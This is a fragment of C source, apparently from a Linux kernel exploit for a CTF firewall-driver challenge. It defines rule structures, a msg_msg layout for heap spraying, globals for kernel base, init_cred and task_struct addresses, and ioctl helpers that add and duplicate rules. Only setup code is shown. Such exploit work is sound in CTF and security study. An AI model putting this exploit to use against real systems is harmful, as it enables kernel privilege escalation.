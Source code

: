 ```c
  uint16_t proto;
  uint16_t port;
  uint8_t action;
} user_rule_t;

typedef struct {
  char iface[16];
  char name[16];
  uint32_t ip;
  uint32_t netmask;
  uint16_t proto;
  uint16_t port;
  uint8_t action;
  uint8_t is_duplicated;
} rule_t;

struct list_head {
  struct list_head *next, *prev;
};

struct msg_msg {
  struct list_head m_list;
  long m_type;
  size_t m_ts;    /* message text size */
  void *next;     /* struct msg_msgseg *next; */
  void *security; //无SELinux，这里为NULL
                  /* the actual message follows immediately */
};

typedef struct {
  long mtype;
  char mtext[1];
} msg;

int global_fd;
uint64_t kernbase, init_ipc_ns, init_task, init_cred;
uint64_t task_struct, dynamic_kobj_ktype, sysfs_bin_kfops_ro;
uint64_t next, prev;
void *target1, *target2;
int qid[4];
char msg_buf[0x2000];
uint64_t u1;
uint64_t relased = 0;

void ip_value_to_str(int ip, char *result, int size) {
  inet_ntop(AF_INET, (void *)&ip, result, size);
}

void add_rule(user_rule_t *rule) {
  int ret = 0;
  ret = ioctl(global_fd, ADD_RULE, rule);
  if (ret < 0) {
    die("[!] Failed to add rule");
  }
}

void dup_rule(user_rule_t *rule) {
  int ret = 0;
  ret = ioctl(global_fd, DUP_RULE, rule);
  if (ret < 0) {
    die("[!] Failed to dup rule");
  }
}
```